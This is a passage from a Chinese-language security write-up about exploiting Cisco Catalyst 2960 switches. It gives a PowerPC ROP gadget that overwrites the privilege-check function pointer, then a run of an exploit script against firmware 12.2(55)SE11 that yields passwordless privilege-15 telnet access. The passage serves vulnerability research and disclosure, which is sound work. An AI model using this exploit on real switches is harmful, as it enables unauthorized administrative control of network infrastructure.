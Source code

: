 上面两个零件会把get_privilege_level函数的指针加载到r3中，同时加载一个将该其覆盖为r31的值。目标值是一个返回15的函数的地址： 

[![](https://p4.ssl.qhimg.com/t0137111a2dbd2e0126.png)](https://p4.ssl.qhimg.com/t0137111a2dbd2e0126.png)



```
0x0148e560: 
    stw r31, 0(r3)
    lwz r0, 0x14(r1)
    mtlr r0
    lwz r31, 0xc(r1)
    addi r1, r1, 0x10
    blr
```

这个Epilog完成最终的写操作并返回到合法的执行流程。当然，应该对堆栈结构进行相应的格式化，以便使这个rop链可以正常工作。为了了解能够使该rop链按预期运行的实际堆栈布局，可以参考漏洞利用源码。

<br>

**运行漏洞利用代码**

忙活一天之后，我终于搞定了一个工具，可以用来给一些重要函数指针打补丁的工具，这些函数之所以重要，是因为它们是处理连接和权限的。请注意，漏洞利用代码严重依赖于交换机上所使用的固件版本。对某些不同的固件版本来说，这里的漏洞利用代码很可能会导致设备崩溃。

根据对较旧的固件SE1的静态和动态分析的了解，我们为最新的建议固件12.2（55）SE11构建了一个漏洞利用代码。固件版本之间的唯一区别，在于函数和指针偏移的不同。此外，该漏洞利用代码运行机制使得我们可以轻松地将更改还原。下面举例说明： 



```
$ python c2960-lanbasek9-m-12.2.55.se11.py 192.168.88.10 --set
[+] Connection OK
[+] Recieved bytes from telnet service: 'xffxfbx01xffxfbx03xffxfdx18xffxfdx1f'
[+] Sending cluster option
[+] Setting credless privilege 15 authentication
[+] All done
$ telnet 192.168.88.10
Trying 192.168.88.10...
Connected to 192.168.88.10.
Escape character is '^]'.
catalyst1#show priv
Current privilege level is 15
catalyst1#show ver
Cisco IOS Software, C2960 Software (C2960-LANBASEK9-M), Version 12.2(55)SE11, RELEASE SOFTWARE (fc3)
...
System image file is "flash:c2960-lanbasek9-mz.122-55.SE11.bin"
...
cisco WS-C2960-48TT-L (PowerPC405) processor (revision B0) with 65536K bytes of memory.
...
Model number                    : WS-C2960-48TT-L
...
Switch Ports Model              SW Version            SW Image                 
------ ----- -----              ----------            ----------               
*    1 50    WS-C2960-48TT-L    12.2(55)SE11          C2960-LANBASEK9-M        
Configuration register is 0xF
```

